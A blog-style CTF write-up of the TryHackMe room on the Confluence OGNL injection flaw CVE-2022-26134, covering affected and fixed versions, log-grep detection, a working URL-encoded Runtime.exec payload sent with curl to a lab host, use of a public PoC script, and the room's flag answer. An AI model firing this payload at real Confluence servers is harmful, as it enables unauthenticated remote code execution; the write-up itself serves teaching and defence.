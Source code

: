 ```yaml
---
weight: 3
title: "CTF writeup - Atlassian CVE-2022-26134"
date: 2022-08-29
lastmod: 2022-08-29T14:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Linux"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit, threat hunt & remediate the Atlassian CVE-2022-26134.
---
```


# Atlassian, CVE-2022-26134

![Untitled](/atlassian/Untitled.png)

On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's Confluence Server and Data Center editions.

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:

```
1.3.0 -> 7.4.17
7.13.0 -> 7.13.7
7.14.0 -> 7.14.3
7.15.0 -> 7.15.2
7.16.0 -> 7.16.4
7.17.0 -> 7.17.4
7.18.0 -> 7.18.1

```

You can view the NIST entry for CVE-2022-26134 [here.](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)

# Login portal

![Untitled](/atlassian/Untitled%201.png)

# Explaining the vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

A web page with questions and a input text field to the right of each question, displaying how values input into a web form can be stored in the back-end using OGNL

![Untitled](/atlassian/Untitled%202.png)

*Thanks to [Journaldev.com](http://journaldev.com/) for this example of OGNL in use.*

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

# Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read here. To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:

```
7.4.17
7.13.7
7.14.3
7.15.2
7.16.4
7.17.4
7.18.1

```

## Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in /opt/atlassian/confluence/logs. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

```bash
grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22" in catalina.out

```

## Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located here.

Unfamiliar with Yara? Check out the Yara room on TryHackMe [here](https://tryhackme.com/room/yara).

# Exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server: 

```bash
${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/  .
```

This will need to be URL encoded, like the following snippet below. You can use thewebsite [https://www.urlencoder.org/](https://www.urlencoder.org/) to help URL encode your payloads (note that your **curl** payload will need to end in a trailing **/** and not **$2F**):

```bash
┌──(kali㉿kali)-[~]
└─$ curl -v [http://10.10.63.161:8090/%24{%40java.lang.Runtime%40getRuntime().exec("touch /tmp/thm")}/](http://10.10.63.161:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/)

- Trying 10.10.63.161:8090...
- Connected to 10.10.63.161 (10.10.63.161) port 8090 (#0)

> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1
Host: 10.10.63.161:8090
User-Agent: curl/7.84.0
Accept: /
> 
- Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1661613209991
< Set-Cookie: JSESSIONID=106FD01E12D08A53C9C95A3DBD577ADF; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sat, 27 Aug 2022 15:13:30 GMT
<
- Connection #0 to host 10.10.63.161 left intact
```

When looking at the server, we can see that it is vulnerable:

```bash
cmnatic@thm-cve-2022-26134:~$ ls /tmp
hsperfdata_confluence
thm
snap.lxd
```

The file “thm” was succesfully created.

# Proof of concept

There are a couple of ways we can exploit this. One of them is to download a POC by Samy Younsi (Mwqda) written in Python and hosted on GitHub.

First, we need to download the PoC to our host. I have decided to clone to the repository using git for this room.

```bash
git clone <https://github.com/Nwqda/CVE-2022-26134>
cd CVE-2022-26134

```

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

```bash
python3.9 cve-2022-26134.py <HTTP://10.10.63.161:8090> COMMAND

```

1. Create a payload to identify what user the application is running as? What is the user?
    1. We can see in the screenshot below that the application is running as the user “confluence”.
    
    ![Untitled](/atlassian/Untitled%203.png)
    
2. Finally, craft a payload to retrieve the flag stored at /flag.txt on the server. What is the flag?
    1. THM{OGNL_VULN}
    
    ![Untitled](/atlassian/Untitled%204.png)
    
    # Conclusion
    
    This was a brief showcase of the [CVE-2022-26134](https://nvd.nist.gov/vuln/detail/CVE-2022-26134) OGNL Injection vulnerability. Remember, OGNL is an expression language for Java-based web applications, so this vulnerability will also apply to other web apps running the same classes that Confluence uses!
    
    ## Additional Reading Material
    
    - [Hunting for Confluence RCE [CVE-2022–26134]](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
    - [Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)